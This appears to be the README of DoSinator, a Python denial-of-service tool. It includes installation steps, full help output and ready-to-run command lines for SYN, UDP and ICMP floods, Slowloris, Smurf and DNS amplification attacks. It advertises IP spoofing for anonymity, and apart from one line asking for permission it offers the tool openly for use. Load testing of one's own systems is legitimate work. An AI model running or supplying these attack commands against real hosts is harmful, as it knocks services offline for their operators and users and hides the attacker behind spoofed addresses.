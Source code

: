 # DoSinator

DoSinator is a powerful Denial of Service (DoS) testing tool developed in Python.
<img src="source/dosinator2.png">
## Features

- **Multiple Attack Modes**: DoSinator supports SYN Flood, UDP Flood, ICMP Flood,Os Fingerprint, Slowloris, and Smurf attack modes, allowing you to simulate various types of DoS attacks.
- **Customizable Parameters**: Adjust the packet size, attack rate, and duration to fine-tune the intensity and duration of the attack.
- **IP Spoofing**: Enable IP spoofing to mask the source IP address and enhance anonymity during the attack.
- **Multithreaded Packet Sending**: Utilize multiple threads for simultaneous packet sending, maximizing the attack speed and efficiency.
- **Data from File**: Load custom data from a file to be sent in the attack packets.
- **PCAP Output**: Save the outgoing attack packets to a PCAP file for further analysis.

## Requirements

- Python 3.x
- scapy
- argparse

## Installation

1. Clone the repository:

   ```shell
   git clone https://github.com/HalilDeniz/DoSinator.git
   ```

2. Navigate to the project directory:

   ```shell
   cd DoSinator
   ```

3. Install the required dependencies:

   ```shell
   pip install -r requirements.txt
   ```

## Usage

```shell
python3 dosinator.py --help                                                                 
    ____             ____            __                
   / __ \____  _____/  _/___  ____ _/ /_____  _____    
  / / / / __ \/ ___// // __ \/ __ `/ __/ __ \/ ___/    
 / /_/ / /_/ (__  )/ // / / / /_/ / /_/ /_/ / /  _ _ _ 
/_____/\____/____/___/_/ /_/\__,_/\__/\____/_/  (_|_|_)
                                                       

usage: dosinator.py [-h] -t TARGET -p PORT [-np NUM_PACKETS] [-ps PACKET_SIZE] [-ar ATTACK_RATE] [-d  DURATION]
                    [-am {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}] [-sp SPOOF_IP] [--data DATA] [--file FILE]
                    [--pcap PCAP]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target IP address
  -p PORT, --port PORT  Target port number
  -np NUM_PACKETS, --num_packets NUM_PACKETS
                        Number of packets to send (default: 500)
  -ps PACKET_SIZE, --packet_size PACKET_SIZE
                        Packet size in bytes (default: 64)
  -ar ATTACK_RATE, --attack_rate ATTACK_RATE
                        Attack rate in packets/second (default: 10)
  -d  DURATION, --duration DURATION
                        Duration of the attack in seconds
  -am {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}, --attack-mode {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}
                        Attack mode (default: syn)
  -sp SPOOF_IP, --spoof-ip SPOOF_IP
                        Spoof IP address
  --data DATA           Custom data string to send
  --file FILE           File path to read data from
  --pcap PCAP           PCAP file path to save outgoing packets
```

- `target_ip`: IP address of the target system.
- `target_port`: Port number of the target service.
- `num_packets`: Number of packets to send (default: 500).
- `packet_size`: Size of each packet in bytes (default: 64).
- `attack_rate`: Attack rate in packets/second (default: 10).
- `duration`: Duration of the attack in seconds.
- `attack_mode`: Attack mode: syn, udp, icmp, http (default: syn).
- `spoof_ip`: Spoof IP address (default: None).
- `data`: Custom data string to send.
- `file`: File path to read data from.
- `pcap`: PCAP file path to save outgoing packets


## Usage Examples

Here are some usage examples of DoSinator:

#### SYN Flood Attack
```shell
python dosinator.py -t 192.168.1.1 -p 80 -ar 1000 -d 60 -am syn
```

#### UDP Flood Attack with Custom Data
```shell
python dosinator.py -t 192.168.1.2 -p 53 -ar 500 -d 120 -am udp --data "CustomPayload123"
```

#### ICMP Flood Attack with IP Spoofing
```shell
python dosinator.py -t 192.168.1.3 -p 443 -ar 200 -d 180 -am icmp -sp random
```

#### HTTP Slowloris Attack
```shell
python dosinator.py -t 192.168.1.4 -p 8080 -ar 50 -d 300 -am slowloris
```

#### Smurf Attack
```shell
python dosinator.py -t 192.168.1.5 -p 0 -ar 100 -d 240 -am smurf
```

#### DNS Amplification Attack with Data from File
```shell
python dosinator.py -t 192.168.1.6 -p 53 -ar 300 -d 150 -am dns --file dns_query.txt
```


Please use this tool responsibly and ensure you have the necessary permissions before conducting any tests.

## Contributing

Contributions are welcome! If you find any issues or have suggestions for improvements, feel free to open an issue or submit a pull request.

## Contact

If you have any questions, comments, or suggestions about Dosinator, please feel free to contact me:
- Linktr [halildeniz](https://linktr.ee/halildeniz)
- LinkedIn: [Halil Ibrahim Deniz](https://www.linkedin.com/in/halil-ibrahim-deniz/)
- TryHackMe: [Halilovic](https://tryhackme.com/p/halilovic)
- Instagram: [deniz.halil333](https://www.instagram.com/deniz.halil333/)
- YouTube: [Halil Deniz](https://www.youtube.com/c/HalilDeniz)
- Email: halildeniz313@gmail.com


## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.

## 💰 You can help me by Donating
  Thank you for considering supporting me! Your support enables me to dedicate more time and effort to creating useful tools like DNSWatch and developing new projects. By contributing, you're not only helping me improve existing tools but also inspiring new ideas and innovations. Your support plays a vital role in the growth of this project and future endeavors. Together, let's continue building and learning. Thank you!"<br>
  [![BuyMeACoffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black)](https://buymeacoffee.com/halildeniz) 
  [![Patreon](https://img.shields.io/badge/Patreon-F96854?style=for-the-badge&logo=patreon&logoColor=white)](https://patreon.com/denizhalil) 

  
